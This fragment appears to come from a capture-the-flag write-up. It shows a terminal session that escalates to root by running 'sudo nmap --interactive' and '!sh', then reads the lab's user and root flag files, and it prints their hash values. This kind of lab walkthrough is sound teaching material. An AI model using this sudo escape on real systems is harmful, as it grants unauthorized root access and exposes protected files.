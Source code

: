 ```bash
$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
whoami
root
cd /home
ls
fanis
spamfilter
cat /home/fanis/user.txt
3ef574d538895f20a84739bddd0a7c9f
cat /root/root.txt
d7aa9cd47efa9b103e8f0274b11c00e3
```
